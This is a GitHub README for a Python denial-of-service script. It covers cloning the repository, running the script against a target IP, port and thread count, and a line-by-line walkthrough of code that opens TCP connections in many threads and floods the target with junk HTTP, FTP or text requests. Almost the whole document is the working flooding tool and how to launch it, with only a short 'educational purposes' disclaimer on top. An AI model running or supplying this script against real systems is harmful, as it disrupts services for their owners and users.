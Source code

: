 # Denial-of-Service with Python

This Python Script floods a target server with requests, attempting to overload and disrupt it.

It's a rather weak attack and its purpose is to show you how a DoS-attack works.

**FOR EDUCATIONAL PURPOSES ONLY! 
NEVER USE THIS SCRIPT IF YOU DO NOT FULLY UNDERSTAND IT! 
DO NOT ATTEMPT TO VIOLATE LOCAL LAW OR INFLICT ANY DAMAGE!
THE MISUSE OF  THIS SOFTWARE CAN RESULT IN SEVERE CONSEQUENCES! 
I ASSUME NO LIABILITY AND I AM NOT RESPONSIBLE FOR ANY DAMAGE CAUSED!**

## Usage

**If you want to use all tools or already cloned the whole repository:**

```
git clone https://github.com/lucasvictorbraun/python-hacking-tools

cd python-hacking-tools/DoS

python3 DoS.py [IP Adress] 80 4
```

**If you only want to use this tool, you have to perform a sparse checkout:**

```
mkdir python-hacking-tools && cd python-hacking-tools #choose any name for the directory

git init

git remote add -f origin https://github.com/lucasvictorbraun/python-hacking-tools

git config core.sparseCheckout true

echo "DoS/" >> .git/info/sparse-checkout

git pull origin main

cd DoS

python3 DoS.py [IP Adress] 80 4
```

## Code

```python
import sys

import socket as s

from threading import Thread
```

Imports sys, socket and threading.

```python
def do_dos():
    while True:
        soc = s.socket(s.AF_INET, s.SOCK_STREAM)
        try:
            soc.connect((ip, port))
```

Makes do_dos runs while True = until we terminate it.

Defines socket and connects to server.

```python
            if port == 80:
                soc.send(b'GET never_gonna_give_you_up.html HTTP/1.1')
            elif port == 21:
                soc.send(b'USER rick_astley')
            else:
                soc.send(b'NEVER GONNA LET YOU DOWN')
            print ("FLOODING...", end="\r")
        except:
            print ("SERVER DOWN", end="\r")
        soc.close()
```

Sends an HTTP GET request if port = 80.

Sends an FTP login command if port =21.

Sends nonsense text to other ports.

Prints SERVER DOWN when requests fail.

Notice: b'...' interprets texts as byte-array, because strings are not allowed.

```python
if len(sys.argv) != 4:
    print ("USAGE: ")
    print ("./" + sys.argv[0] + " [IP] [PORT] [THREADS] \n")
    sys.exit 

ip = sys.argv[1]
port = int(sys.argv[2])
threads = int(sys.argv[3])
```

Checks for arguments  and assigns them to the variables.

```python
print ("RUNNING ATTACK")
for i in range(0, threads):
    t = Thread(target=do_dos)
    t.start()
```

Prints RUNNING ATTACK.
Starts threads to run several executions.

## License
Licensed under the [MIT License](https://opensource.org/licenses/MIT).
